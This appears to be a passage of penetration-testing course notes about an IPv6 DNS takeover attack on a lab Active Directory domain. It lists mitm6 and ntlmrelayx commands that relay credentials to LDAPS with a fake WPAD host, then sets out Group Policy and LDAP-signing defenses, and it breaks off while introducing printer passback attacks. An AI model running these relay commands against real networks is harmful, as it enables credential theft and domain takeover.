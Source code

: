 - Setup mitm6

		mitm6 -d marvel.local

- Setup ntlmrelayx

		ntlmrelayx.py -6 -t ldaps://{domaincontrollerIP} -wh fakewpad.marvel.local -l lootme --delegate-access

		-6 for IPv6
		-l for loot

- Reboot Victim Machine (For Faster Response)

- Check lootme folder

- After the Administrator successfully logs in, a new user (or computer) must be created 

<div style="page-break-after: always;"></div>

## Defense Against IPv6 Attacks


- IPv6 poisoning abuses the fact that Windows queries for an IPv6 address even in IPv4-only environments. 

- If you don't use IPv6 internally, the safest way to prevent mitm6 is to block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy.

- Disabling IPv6 entirely may have unwanted side effects. 

	*Setting the following predefined rules to Block instead of Allow prevents the attack from working:*
	- (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPv6 (DHCPV6-In)

	- (ICMPV6-bound) Core Networking - Router Advertisement (ICMPv6-In)

	- (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-Out)

- If WPAD is not in use internally, disable it via Group Policy and by disabling the WinHttpAutoProxySvc service.

- Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP signing and LDAP channel binding.

- Consider Administrative users to the Protected Users group or marking them as Account is sensitive and cannot be delegated, which will prevent any impersonation of that user via delegation.

<div style="page-break-after: always;"></div>

## Passback-Attacks

---

**Multi-Function Peripherals (MFPs)** are an underutilized target in the realm of pen testing. When compared against other high-value targets, MFP hacking appears to be the low man on the totem pole. Penetration testers frequently attack other targets like web applications, file servers, and domain controllers. Too often, the thought is: Why waste your time on printers when you can attack things like systems potentially resulting in:
